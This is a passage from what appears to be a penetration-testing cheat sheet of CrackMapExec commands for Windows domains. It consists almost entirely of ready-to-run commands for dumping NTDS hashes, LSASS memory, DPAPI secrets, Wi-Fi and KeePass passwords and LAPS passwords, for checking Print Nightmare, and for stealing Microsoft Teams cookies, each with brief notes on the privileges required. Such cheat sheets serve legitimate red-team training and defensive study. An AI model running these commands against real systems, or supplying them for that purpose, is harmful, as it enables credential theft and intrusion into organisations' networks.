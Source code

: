     ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds --users
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds --users --enabled
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds vss
    ```
*   **Dump LSASS Using Lsassy:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M lsassy
    ```
*   \*\*Dump LSASS Using nanodump:\*\*You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M nanodump
    ```
*   **Dump WIFI Password:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M wireless
    ```
*   **Dump KeePass:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M keepass_discover
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
    ```
*   **Dump DPAPI:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --dpapi
    ```
*   **Defeating LAPS:** If LAPS is used inside the domain, it can be hard to use CrackMapExec to execute a command on every computer on the domain. Therefore, a new core option has been added `--laps`! If you have compromised an account that can read

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --laps
    ```
*   **Print Nightmare Spooler, WebDav Check:** If enabled, run @cube0x0 or Mimikatz from @gentilkiwi to gain SYSTEM on workstations/servers up to date

    ```bash
    crackmapexec smb <target_ip> -u <user_name> -p '<password>' -M spooler
    ```
*   **Steal Microsoft Teams Cookies:** You need at least local admin privilege on the remote target

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M teams_localdb
    ```

